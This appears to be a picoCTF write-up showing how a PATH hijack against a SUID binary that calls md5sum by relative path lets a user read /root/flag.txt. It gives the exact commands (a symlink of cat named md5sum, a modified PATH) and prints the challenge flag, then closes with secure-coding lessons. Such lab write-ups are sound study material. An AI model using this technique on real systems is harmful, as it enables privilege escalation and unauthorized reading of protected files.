 # Path Hijacking for SUID Exploitation - CTF Write-up

## Challenge Overview
The challenge involves a SUID binary named "flaghasher" that runs with root privileges to calculate the MD5 hash of a protected file `/root/flag.txt`, which normal users cannot access directly.

## Vulnerability Analysis
After analyzing the decompiled code, I identified that:

1. The program sets its privileges to root (`setgid(0)` and `setuid(0)`)
2. It executes the command `/bin/bash -c 'md5sum /root/flag.txt'` using `system()`
3. The critical vulnerability is that it calls `md5sum` without specifying the full path

## Exploitation Method: PATH Hijacking
The vulnerability allows for a classic PATH hijacking attack:

1. The program calls `md5sum` using a relative path
2. When a program doesn't use absolute paths, the system searches for executables in directories listed in the PATH environment variable
3. By manipulating this search path, we can trick the program into executing our own version of `md5sum`

## Step-by-Step Exploitation

### 1. Create a personal bin directory
```bash
mkdir -p ~/bin
```

### 2. Create a fake md5sum that actually runs cat
```bash
ln -s /bin/cat ~/bin/md5sum
```
This symlink means when `md5sum` is called, it will actually execute the `cat` command.

### 3. Modify the PATH environment variable
```bash
export PATH=~/bin:$PATH
```
This prepends our personal bin directory to the PATH, so the system will look there first when searching for executables.

### 4. Verify the PATH modification worked
```bash
which md5sum
```
Output: `/home/ctf-player/bin/md5sum`

### 5. Execute the vulnerable SUID binary
```bash
./flaghasher
```

### 6. Result
Instead of calculating the MD5 hash, our hijacked `md5sum` actually runs `cat` on `/root/flag.txt`, displaying:
```
picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_9722baa4}
```

## Security Lessons
1. Always use absolute paths when executing commands in privileged programs
2. Be cautious with the `system()` function in SUID programs
3. Consider using more secure alternatives like `execve()` that don't rely on shell interpretation
4. For developers: sanitize the environment before executing privileged operations

This type of vulnerability is common in CTF challenges and demonstrates fundamental principles of privilege escalation in Unix-like systems.
